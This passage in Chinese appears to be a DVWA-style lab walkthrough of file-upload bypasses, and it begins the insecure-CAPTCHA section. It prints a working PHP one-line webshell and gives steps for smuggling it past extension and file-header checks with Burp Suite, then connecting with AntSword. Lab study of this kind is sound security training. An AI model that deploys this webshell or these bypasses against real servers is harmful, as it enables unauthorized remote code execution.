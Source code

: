 对文件类型进行了限制，只能上传jpeg/PNG.

可以通过修改后缀名进行绕过

首先写一句话木马

```php
<?php
@eval($_REQUEST['cmd']);
?>
```

修改文件名为：cmd.php.jpeg或者cmd.jpeg

然后通过burpsuite进行抓包，修改文件名，并进行重放。即可上传成功。修改为php后缀。

![image-20220123234346994](https://s2.loli.net/2022/01/23/RplHcGeLoSiq12O.png)

可以看到，上传成功

![image-20220123234449958](https://s2.loli.net/2022/01/23/W4l5QNShyo8Aawm.png)

然后用蚁剑连接即可。

拿下！

![image-20220123234540979](C:\Users\loeoe\AppData\Roaming\Typora\typora-user-images\image-20220123234540979.png)

也可以直接通过get传参。

![image-20220123235016536](https://s2.loli.net/2022/01/23/B38eH9fJxVuFgYO.png)

![image-20220123235708181](https://s2.loli.net/2022/01/23/49gvm5fWYMH3qzs.png)

**3.high**

或者修改文件头为：GIF89

制作图片马，进行上传。

命令：

![image-20220124001307489](https://s2.loli.net/2022/01/24/jsvpPROXce8QZoy.png)

![image-20220124000341406](https://s2.loli.net/2022/01/24/bYmp9LRD1GjkCV2.png)

然后利用远程文件包含漏洞。或者“命令注入漏洞”。

![image-20220124001628374](https://s2.loli.net/2022/01/24/V8e1XuvZQNDR3Ex.png)



### 不安全验证码

这里需要Google API，实验环境不具备。

本质上来说，是利用验证码检测的逻辑漏洞，通过修改参数，进行绕过。

```php
<?php

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check CAPTCHA from 3rd party
    $resp = recaptcha_check_answer(
```